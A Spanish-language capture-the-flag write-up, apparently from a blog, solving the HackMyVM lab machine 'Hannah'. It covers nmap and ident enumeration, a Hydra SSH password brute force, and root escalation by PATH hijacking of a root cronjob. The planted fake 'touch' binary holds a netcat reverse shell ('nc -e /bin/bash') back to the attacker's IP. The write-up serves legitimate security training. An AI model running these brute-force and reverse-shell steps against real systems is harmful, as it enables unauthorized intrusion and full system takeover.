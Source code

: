 ```yaml
---
layout: post
title: Hannah - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Sml \\
**Dificultad**: Fácil

![img](/imgs/write-ups/hackmyvm/hannah/hannah.png#center)

## Reconocimiento

Comienzo con una enumeración básica utilizando nmap.

```
sudo nmap -p- 192.168.1.63 
[sudo] contraseña para user: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-05 22:37 UTC
Nmap scan report for 192.168.1.63
Host is up (0.00014s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
113/tcp open  ident
MAC Address: 08:00:27:2A:54:DF (Oracle VirtualBox virtual NIC)
```

### 113 (ident)

Enumero el puerto 113 con [Ident User Enum](https://github.com/pentestmonkey/ident-user-enum) y tras probar con todos los puertos disponibles, solo el puerto 80 ofrece un usuario diferente a root.

```
ident-user-enum git:(master) ./ident-user-enum.pl 192.168.1.63 80
ident-user-enum v1.0 ( http://pentestmonkey.net/tools/ident-user-enum )

192.168.1.63:80 moksha
```

## Explotación

Una vez conocido un usuario, realizo un ataque de fuerza bruta para intentar conseguir su contraseña.

```
hydra -l moksha -P /usr/share/seclists/Passwords/rockyou.txt 192.168.1.63 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-05 22:38:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://192.168.1.63:22/
[22][ssh] host: 192.168.1.63   login: moksha   password: h*****
1 of 1 target successfully completed, 1 valid password found
```

Contraseña encontrada!!

## Escalado de privilegios

Utilizo ssh para iniciar sesión en la máquina. Una vez dentro descubro que cada minuto se ejecuta un cronjob en el cual el usuario root crea un fichero en /tmp.

```
moksha@hannah:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/media:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
* * * * * root touch /tmp/enlIghtenment
[...]
```

Tambien se puede ver que tengo permisos de escritura en /media y este directorio se encuentra en el PATH de root.
```
ls -la /
total 68
drwxr-xr-x  18 root root  4096 ene  4 10:47 .
drwxr-xr-x  18 root root  4096 ene  4 10:47 ..
[...]
drwxrwxrwx   3 root root  4096 ene  5 10:52 media
[...]
```

De esta forma, para conseguir acceso como el usuario root realizo un ataque de "path hijacking" dado que no se especifica la ruta completa del comando "touch" y el directorio "/media" se encuentra antes que "/usr/bin" que es donde está "touch".

```
$ touch /media/touch
$ chmod +x /media/touch
$ cat /media/touch 
#!/bin/bash
nc -e /bin/bash 192.168.1.79 1234

$ :)
```

Una vez se ejecute el cronjob, obtengo una conexión como el usuario root.

```
$ nc -lvnp 1234
Connection from 192.168.1.63:60164
root@hannah:~# :)
```

Muchas gracias a **Sml** por esta máquina.
